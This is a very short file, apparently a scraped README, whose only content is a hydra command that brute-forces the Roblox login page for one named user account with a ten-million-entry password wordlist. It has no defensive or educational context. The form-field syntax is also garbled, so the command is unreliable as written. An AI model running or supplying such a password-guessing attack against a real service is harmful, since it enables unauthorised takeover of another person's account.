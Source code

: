 # ggg
$ hydra roblox.com/Login -l atmfinesser -p /home/piotrcki-wordlist-top10m.txt http-post-form "/login.php:user=^Incorrect username^&amp;pass=^password.^: F LoginFunCaptcha_Triggered"  

